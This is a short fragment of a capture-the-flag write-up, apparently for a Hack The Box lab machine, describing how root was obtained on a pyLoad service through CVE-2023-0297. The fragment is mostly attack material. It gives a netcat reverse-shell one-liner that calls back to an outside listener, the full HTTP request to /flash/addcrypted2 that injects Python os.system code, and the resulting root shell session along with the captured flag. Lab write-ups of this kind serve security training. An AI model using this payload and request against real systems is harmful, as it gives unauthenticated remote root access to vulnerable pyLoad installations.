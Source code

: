 Source: https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad
#### Payload

Created a file with below contents in /tmp 

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f`

Sent the below request to execute shell

```
POST /flash/addcrypted2 HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

jk=pyimport%20os;os.system("bash+/tmp/shell");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa
```
# Root shell returned
Root flag captured.
```
┌─[parrot@parrotos]─[~/htb/pc]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.10] from (UNKNOWN) [10.129.164.184] 43976
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
5c603e3b2a9e73b19a9ba34ce14148cc
# 
```

